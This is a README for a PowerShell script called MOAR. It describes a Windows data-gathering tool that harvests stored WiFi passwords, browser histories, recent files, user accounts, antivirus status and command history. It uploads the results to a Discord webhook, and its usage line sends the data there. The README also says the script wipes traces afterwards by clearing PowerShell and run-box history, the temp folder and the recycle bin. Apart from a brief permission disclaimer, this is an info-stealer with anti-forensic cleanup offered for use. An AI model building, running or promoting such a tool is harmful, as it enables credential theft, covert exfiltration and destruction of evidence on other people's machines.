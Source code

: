 # MOAR - Mother Of All Recons

MOAR is a PowerShell script built to gather an extensive amount of information about a Windows system. This includes but is not limited to, system configurations, network details, browsing history, recently accessed files, and much more.

## Features

- **Geolocation**: Fetches geolocation data based on the current IP.
- **Network Configuration**: Gathers details like IP, Default Gateway, DNS, and others.
- **Recent Files**: Retrieves the 50 most recently accessed files.
- **System Users**: Lists all the user accounts on the system.
- **Firewall and Antivirus Details**: Checks the status of the firewall and antivirus product details.
- **Wifi SSIDs and Passwords**: Gathers stored WiFi SSIDs and their corresponding passwords.
- **Computer Info**: Grabs a detailed list of computer specifications.
- **Process and App Details**: Lists all currently running processes and installed apps.
- **Browser Data**: Captures browser histories and bookmarks from popular browsers like Edge, Chrome, and Firefox.
- **Additional Data**: Retrieves additional details such as a tree structure of the user profile directory and PowerShell command history.
- **Upload to Discord**: Has the ability to upload all the gathered data to Discord via a webhook.

## Usage

To use the script, you must provide your Discord Webhook URL as a parameter to the main function `AR`. This will allow the script to send all the gathered data to the specified Discord channel.

```powershell
AR -wh 'YOUR_DISCORD_WEBHOOK_URL'
```

For example:

```powershell
# This is a sample and should be replaced with your actual webhook URL.
AR -wh 'https://discord.com/api/webhooks/xxxx/yyyy'
```

## Precautions

- **Sensitive Data**: This script retrieves a large amount of sensitive data. Be sure to handle the output responsibly and securely.
- **Intended Use**: Only run this script on systems you have permission to. Unauthorized scanning and data collection is illegal and unethical.
- **Cleanup**: The script performs a cleanup at the end, including emptying the temp folder, deleting run box history, PowerShell history, and emptying the recycle bin.

